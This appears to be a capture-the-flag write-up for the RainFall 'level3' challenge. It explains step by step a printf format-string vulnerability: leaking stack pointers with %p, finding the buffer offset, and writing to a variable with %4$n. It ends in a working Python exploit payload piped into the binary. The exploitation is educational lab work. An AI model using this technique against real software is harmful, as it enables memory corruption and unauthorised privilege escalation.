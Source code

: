 We start by opening the file in [dogbolt](https://dogbolt.org/). Here we can see that it use a printf without specifying a format

So we can try to play with it by, doing something like:
``` Shell
level3@RainFall:~$ ./level3
%p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0
```

We can that using `%p` result in memory display.

Since with printf we can write on the stack using `%n` this is a vulnerability.

Now we will see how to write on our variable `m` to enter the if statement.
We know that %n put the length off a string in a given address :

``` C
printf("abc%n\n",&nb); // nb == 3
```

Ok we know we can write with `%n` but how can I find a variable with the 64 char needed to match the condition ?
We will use printf to check the stack, I start by putting some "AAAA" at the start of our printf this help us determine where our buffer start.
Then I will use %p to check pointers :

``` Shell
./level3
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

We can see that the start of our buffer is 4 pointer or `%4$p`

Ok I can write a specific value on an address,
so we will get the address of `m` who can be found with `gdb` or `objdump -t`
address : `0804988c`
in little endian : `\x8c\x98\x04\x08`

Ok we have the address and a value time to put the value in the `m`
The injection will look like:
[address of `m` (to set the printf pointer on it)][64 - len(address) = 60][`%4$n`(start of our buffer)]

```Shell
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit && cat /tmp/exploit - | ./level3
```
